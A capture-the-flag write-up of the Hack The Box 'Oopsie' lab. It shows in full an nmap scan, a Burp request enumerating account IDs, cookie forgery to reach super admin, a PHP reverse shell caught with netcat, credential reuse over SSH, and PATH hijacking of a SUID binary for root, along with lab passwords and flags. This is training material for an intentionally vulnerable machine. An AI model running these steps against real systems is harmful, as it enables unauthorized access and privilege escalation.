


## Oopsie
<p align="center">
  
</p>

- [`nmap -sC -sV 10.10.10.28`](nmap.txt)
```
# Nmap 7.92 scan initiated Fri Aug 13 21:57:14 2021 as: nmap -sC -sV -oN nmap.txt 10.10.10.28
Nmap scan report for 10.10.10.28
Host is up (0.49s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 13 21:58:16 2021 -- 1 IP address (1 host up) scanned in 62.00 seconds
```
Here we found two open ports i.e 22(for SSH) and 80(for HTTP)
- `Port 80 is open thus a website found which is hosted in 10.10.10.28:80`
<p align="center">
  
</p>

- `Site map is loaded using Burpsuite Community Edition Free`
<p align="center">
  
</p>

- `Trying to open the webpage`
<p align="center">
  
</p>

- `Trying to login with the old credentials found from Archetype Machine`
Username = ``admin``
Password = ``MEGACORP_4dm1n!!``
<p align="center">
  
</p>

- `It Successfully logged in`
<p align="center">
  
</p>

- `Viewing the Account details`
<p align="center">
  
</p>

Here we see that this is an admin account with access id 34322

- `Viewing the uploads section`
<p align="center">
  
</p>
Here nothing can be uploaded from admin account, it needed super admin account

- [`From Burpsuite bruteforce is done from Intruder tab`](burp_req_bruteforce.txt)
```
GET /cdn-cgi/login/admin.php?content=accounts&id=§1§ HTTP/1.1
Host: 10.10.10.28
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: user=34322; role=admin
Connection: close
```
<p align="center">
  
</p>

Here we scan from 1 to 100 id to find super user and we found it in id=30
<p align="center">
  
</p>

The super admin ID RAW is
```
HTTP/1.1 200 OK
Date: Mon, 16 Aug 2021 17:41:29 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 3634
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
...
...
...
<td>86575</td><td>super admin</td><td>superadmin@megacorp.com</td></tr></table<script src='/js/jquery.min.js'></script>
<script src='/js/bootstrap.min.js'></script>
</body>
</html>
```
Here we found the Access ID of super admin is `86575`.
- `Super User Account`
<p align="center">
  
</p>

- `Now by changing the cookies by super admin we can upload` 

    - BURPSUITE REQUEST
<p align="center">
  
</p>

- `Files can be uploaded as super admin`
<p align="center">
  
</p>

- `Uploading the php file for connecting with nc`
<p align="center">
  
</p>

- `Now using gobuster find the directory where it uploaded the file`
<p align="center">
  
</p>

Here I found `uploads` directory thus by changing the url to `10.10.10.28/uploads/phprev.php`
    
- [php used here is](phprev.php)
<p align="center">
  
</p>

Here it kept buffering but `nc` connection gets extablished simultaneously.
- [`nc -lvmp port`](nc.txt) ## nc -lvmp 10500
    - ```python3 -c 'import pty; pty.spawn("/bin/bash")'``` (Bonus for getting interactive terminal like access)
```
Connection from 10.10.10.28:53738
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:29:26 up  1:00,  0 users,  load average: 0.08, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ www-data@oopsie:/$ pwd
/
www-data@oopsie:/$ ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swap.img  usr  vmlinuz.old
www-data@oopsie:/$ cd usr
www-data@oopsie:/usr$ ls
bin  games  include  lib  local  sbin  share  src
www-data@oopsie:/usr$ cd ..
www-data@oopsie:/$ cd var
www-data@oopsie:/var$ ls
backups  crash	local  log   opt  snap	 tmp
cache	 lib	lock   mail  run  spool  www
www-data@oopsie:/var$ cd www
www-data@oopsie:/var/www$ ls
html
www-data@oopsie:/var/www$ cd html
www-data@oopsie:/var/www/html$ ls
cdn-cgi  css  fonts  images  index.php	js  themes  uploads
www-data@oopsie:/var/www/html$ cd cdn-cgi
www-data@oopsie:/var/www/html/cdn-cgi$ ls
login
www-data@oopsie:/var/www/html/cdn-cgi$ cd login
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
admin.php  db.php  index.php  script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls -al
total 28
drwxr-xr-x 2 root root 4096 Jan 28  2020 .
drwxr-xr-x 3 root root 4096 Jan 28  2020 ..
-rw-r--r-- 1 root root 6333 Jan 28  2020 admin.php
-rw-r--r-- 1 root root   80 Jan 24  2020 db.php
-rw-r--r-- 1 root root 5007 Jan 28  2020 index.php
-rw-r--r-- 1 root root    0 Jan 24  2020 script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
www-data@oopsie:/var/www/html/cdn-cgi/login$ 
```
- Using the `Username - robert` & `Password - M3g4C0rpUs3r!` for [SSH](ssh2.txt) we get

```
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 16 19:44:40 UTC 2021

  System load:  0.69               Processes:             114
  Usage of /:   25.5% of 19.56GB   Users logged in:       0
  Memory usage: 16%                IP address for ens160: 10.10.10.28
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Aug 16 19:39:59 2021 from 10.10.16.58

robert@oopsie:~$ ls 
user.txt
robert@oopsie:~$ cd ..
robert@oopsie:/home$ cd ..
robert@oopsie:/$ ls -al
total 2097256
drwxr-xr-x  24 root root       4096 Jan 27  2020 .
drwxr-xr-x  24 root root       4096 Jan 27  2020 ..
drwxr-xr-x   2 root root       4096 Jan 27  2020 bin
drwxr-xr-x   3 root root       4096 Jan 27  2020 boot
drwxr-xr-x   2 root root       4096 Jan 23  2020 cdrom
drwxr-xr-x  18 root root       3920 Aug 16 19:44 dev
drwxr-xr-x  98 root root       4096 Jan 28  2020 etc
drwxr-xr-x   3 root root       4096 Jan 23  2020 home
lrwxrwxrwx   1 root root         33 Jan 27  2020 initrd.img -> boot/initrd.img-4.15.0-76-generic
lrwxrwxrwx   1 root root         33 Jan 23  2020 initrd.img.old -> boot/initrd.img-4.15.0-74-generic
drwxr-xr-x  23 root root       4096 Jan 27  2020 lib
drwxr-xr-x   2 root root       4096 Aug  5  2019 lib64
drwx------   2 root root      16384 Jan 23  2020 lost+found
drwxr-xr-x   2 root root       4096 Aug  5  2019 media
drwxr-xr-x   2 root root       4096 Aug  5  2019 mnt
drwxr-xr-x   2 root root       4096 Aug  5  2019 opt
dr-xr-xr-x 126 root root          0 Aug 16 19:44 proc
drwx------   8 root root       4096 Mar 20  2020 root
drwxr-xr-x  27 root root        880 Aug 16 19:44 run
drwxr-xr-x   2 root root      12288 Jan 27  2020 sbin
drwxr-xr-x   4 root root       4096 Jan 23  2020 snap
drwxr-xr-x   2 root root       4096 Aug  5  2019 srv
-rw-------   1 root root 2147483648 Jan 23  2020 swap.img
dr-xr-xr-x  13 root root          0 Aug 16 19:44 sys
drwxrwxrwt  11 root root       4096 Aug 16 19:44 tmp
drwxr-xr-x  10 root root       4096 Aug  5  2019 usr
drwxr-xr-x  14 root root       4096 Jan 23  2020 var
lrwxrwxrwx   1 root root         30 Jan 27  2020 vmlinuz -> boot/vmlinuz-4.15.0-76-generic
lrwxrwxrwx   1 root root         30 Jan 23  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-74-generic
robert@oopsie:/$ cd /tmp/
robert@oopsie:/tmp$ ls -al
total 44
drwxrwxrwt 11 root root 4096 Aug 16 19:45 .
drwxr-xr-x 24 root root 4096 Jan 27  2020 ..
drwxrwxrwt  2 root root 4096 Aug 16 19:44 .font-unix
drwxrwxrwt  2 root root 4096 Aug 16 19:44 .ICE-unix
drwx------  3 root root 4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-apache2.service-GDtgP1
drwx------  3 root root 4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-systemd-resolved.service-YriYv1
drwx------  3 root root 4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-systemd-timesyncd.service-q7HLjf
drwxrwxrwt  2 root root 4096 Aug 16 19:44 .Test-unix
drwx------  2 root root 4096 Aug 16 19:44 vmware-root_546-2999591749
drwxrwxrwt  2 root root 4096 Aug 16 19:44 .X11-unix
drwxrwxrwt  2 root root 4096 Aug 16 19:44 .XIM-unix
robert@oopsie:/tmp$ echo PATH=/tmp:$PATH
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
robert@oopsie:/tmp$ echo '/bin/sh' > cat
robert@oopsie:/tmp$ chmod +x cat
robert@oopsie:/tmp$ ls -al
total 48
drwxrwxrwt 11 root   root   4096 Aug 16 19:45 .
drwxr-xr-x 24 root   root   4096 Jan 27  2020 ..
-rwxrwxr-x  1 robert robert    8 Aug 16 19:45 cat
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .font-unix
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .ICE-unix
drwx------  3 root   root   4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-apache2.service-GDtgP1
drwx------  3 root   root   4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-systemd-resolved.service-YriYv1
drwx------  3 root   root   4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-systemd-timesyncd.service-q7HLjf
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .Test-unix
drwx------  2 root   root   4096 Aug 16 19:44 vmware-root_546-2999591749
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .X11-unix
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .XIM-unix
robert@oopsie:/tmp$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.

robert@oopsie:$ export PATH=/tmp:$PATH
robert@oopsie:$ cd tmp
robert@oopsie:/tmp$ echo '/bin/sh' > cat
robert@oopsie:/tmp$ chmod +x cat

robert@oopsie:/tmp$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 13
---------------

# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
# ls -al
total 48
drwxrwxrwt 11 root   root   4096 Aug 16 19:45 .
drwxr-xr-x 24 root   root   4096 Jan 27  2020 ..
-rwxrwxr-x  1 robert robert    8 Aug 16 19:48 cat
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .font-unix
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .ICE-unix
drwx------  3 root   root   4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-apache2.service-GDtgP1
drwx------  3 root   root   4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-systemd-resolved.service-YriYv1
drwx------  3 root   root   4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-systemd-timesyncd.service-q7HLjf
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .Test-unix
drwx------  2 root   root   4096 Aug 16 19:44 vmware-root_546-2999591749
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .X11-unix
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .XIM-unix
# cd ..
# ls -al
total 2097256
drwxr-xr-x  24 root root       4096 Jan 27  2020 .
drwxr-xr-x  24 root root       4096 Jan 27  2020 ..
drwxr-xr-x   2 root root       4096 Jan 27  2020 bin
drwxr-xr-x   3 root root       4096 Jan 27  2020 boot
drwxr-xr-x   2 root root       4096 Jan 23  2020 cdrom
drwxr-xr-x  18 root root       3920 Aug 16 19:44 dev
drwxr-xr-x  98 root root       4096 Jan 28  2020 etc
drwxr-xr-x   3 root root       4096 Jan 23  2020 home
lrwxrwxrwx   1 root root         33 Jan 27  2020 initrd.img -> boot/initrd.img-4.15.0-76-generic
lrwxrwxrwx   1 root root         33 Jan 23  2020 initrd.img.old -> boot/initrd.img-4.15.0-74-generic
drwxr-xr-x  23 root root       4096 Jan 27  2020 lib
drwxr-xr-x   2 root root       4096 Aug  5  2019 lib64
drwx------   2 root root      16384 Jan 23  2020 lost+found
drwxr-xr-x   2 root root       4096 Aug  5  2019 media
drwxr-xr-x   2 root root       4096 Aug  5  2019 mnt
drwxr-xr-x   2 root root       4096 Aug  5  2019 opt
dr-xr-xr-x 137 root root          0 Aug 16 19:44 proc
drwx------   8 root root       4096 Mar 20  2020 root
drwxr-xr-x  27 root root        880 Aug 16 19:44 run
drwxr-xr-x   2 root root      12288 Jan 27  2020 sbin
drwxr-xr-x   4 root root       4096 Jan 23  2020 snap
drwxr-xr-x   2 root root       4096 Aug  5  2019 srv
-rw-------   1 root root 2147483648 Jan 23  2020 swap.img
dr-xr-xr-x  13 root root          0 Aug 16 19:44 sys
drwxrwxrwt  11 root root       4096 Aug 16 19:45 tmp
drwxr-xr-x  10 root root       4096 Aug  5  2019 usr
drwxr-xr-x  14 root root       4096 Jan 23  2020 var
lrwxrwxrwx   1 root root         30 Jan 27  2020 vmlinuz -> boot/vmlinuz-4.15.0-76-generic
lrwxrwxrwx   1 root root         30 Jan 23  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-74-generic
# cd root
# ls -al
total 48
drwx------  8 root root 4096 Mar 20  2020 .
drwxr-xr-x 24 root root 4096 Jan 27  2020 ..
lrwxrwxrwx  1 root root    9 Jan 25  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jan 24  2020 .cache
drwxr-xr-x  3 root root 4096 Jan 25  2020 .config
drwx------  3 root root 4096 Jan 24  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jan 23  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Jan 24  2020 reports
-rw-r--r--  1 root root   33 Feb 25  2020 root.txt
drwx------  2 root root 4096 Jan 23  2020 .ssh
-rw-------  1 root root 1325 Mar 20  2020 .viminfo
# cd .config	
# ls -al
total 12
drwxr-xr-x 3 root root 4096 Jan 25  2020 .
drwx------ 8 root root 4096 Mar 20  2020 ..
drwxr-xr-x 2 root root 4096 Sep 11  2020 filezilla
# cd filezilla
# ls -al
total 12
drwxr-xr-x 2 root root 4096 Sep 11  2020 .
drwxr-xr-x 3 root root 4096 Jan 25  2020 ..
-rw-r--r-- 1 root root  646 Sep 11  2020 filezilla.xml
# more filezilla.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
# reboot
Connection to 10.10.10.28 closed by remote host.
Connection to 10.10.10.28 closed.
```
- Get the entire ssh [here](ssh.txt)
- This from here we get the details of `
USER FLAG - f2c74ee8db7983851ab2a96a44eb7981 &&
SYSTEM FLAG -  af13b0bee69f8a877c3faf667f7beacf`


- Additional information 
`Username - ftpuser Password - mc@F1l3ZilL4`